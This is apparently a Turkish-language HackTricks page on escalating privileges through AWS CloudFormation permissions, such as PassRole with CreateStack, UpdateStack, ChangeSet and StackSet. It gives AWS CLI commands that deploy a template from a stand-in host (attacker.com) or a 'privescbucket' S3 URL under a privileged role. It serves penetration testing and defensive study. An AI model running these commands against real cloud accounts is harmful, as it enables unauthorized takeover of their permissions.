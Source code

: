 # AWS - Cloudformation Yetki Yükseltme

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking püf noktalarını paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>
{% endhint %}

## cloudformation

Cloudformation hakkında daha fazla bilgi için şu adrese bakın:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan, **belirli bir rolün izinleri altında eylemler gerçekleştirmek için özel bir şablonla, kendi sunucusunda barındırılan bir CloudFormation yığını oluşturarak** ayrıcalıkları **yükseltebilir:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada, **ek izin** olan **`cloudformation:DescribeStacks`** ile bir **sömürü örneği** bulunmaktadır:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potansiyel Etki:** Belirtilen cloudformation hizmet rolüne ayrıcalık yükseltme. 

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, önceki senaryoda olduğu gibi mevcut bir cloudformation yığınını güncellemek ve ayrıcalıkları yükseltmek için **mevcut bir cloudformation yığınına kötüye kullanım** yapabilirsiniz:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** ve saldırıyı gerçekleştirmek için kullanılabilir.

**Potansiyel Etki:** Belirtilen cloudformation hizmet rolüne yükseltme.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **`iam:PassRole` izniniz yoksa** yine de kullanılan yığınları **güncelleyebilir** ve zaten ekli olan **IAM Rollerini kötüye kullanabilirsiniz**. Saldırı örneği için önceki bölüme bakın (güncellemede herhangi bir rolü belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** ve saldırıyı gerçekleştirmek için kullanılabilir.

**Potansiyel Etki:** Zaten ekli olan cloudformation hizmet rolüne yükseltme.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir rolü geçme ve bir Değişiklik Kümesi oluşturma ve yürütme iznine sahip bir saldırgan, **CreateStack veya UpdateStack ile aynı şekilde cloudformation hizmet rollerini kötüye kullanarak** yeni bir cloudformation yığını oluşturabilir/güncelleyebilir.

Aşağıdaki saldırı, bir yığın oluşturmak için **Değişiklik Kümesi izinlerini** kullanarak [**CreateStack'ın bir varyasyonudur**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **`ChangeSet` izinlerini kendinize vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Potansiyel Etki:** Cloudformation hizmet rollerine yükseltilmiş ayrıcalıklar.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, önceki yönteme benzer, ancak **IAM rolleri** geçmeden, zaten ekli olanları **kötüye kullanabilirsiniz**, yalnızca parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Potansiyel Etki:** Zaten ekli olan cloudformation hizmet rolüne yükseltme yapma.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak StackSets oluşturabilir/güncelleyebilir ve keyfi cloudformation rollerini kötüye kullanabilir.

**Potansiyel Etki:** Cloudformation hizmet rollerine yükseltme yapma.

### `cloudformation:UpdateStackSet`

Bir saldırgan, bu izni kullanarak, passRole izni olmadan StackSets'i güncelleyebilir ve ekli cloudformation rollerini kötüye kullanabilir.

**Potansiyel Etki:** Ekli cloudformation rollerine yükseltme yapma.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
